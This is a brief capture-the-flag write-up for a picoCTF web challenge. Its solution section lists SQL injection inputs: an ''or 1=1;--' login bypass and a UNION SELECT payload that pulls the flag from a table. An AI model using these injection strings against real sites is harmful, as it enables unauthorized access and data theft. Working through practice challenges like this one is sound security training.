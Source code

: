 
## Objetivo

Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:62633/).

## Datos de Acceso al Nivel

[here](http://saturn.picoctf.net:62633/).
## Solucion

```
admin
'or 1=1;--

Algiers' union select flag,id,1 from more_table;--
```

## Notas Adicionales



## Referencias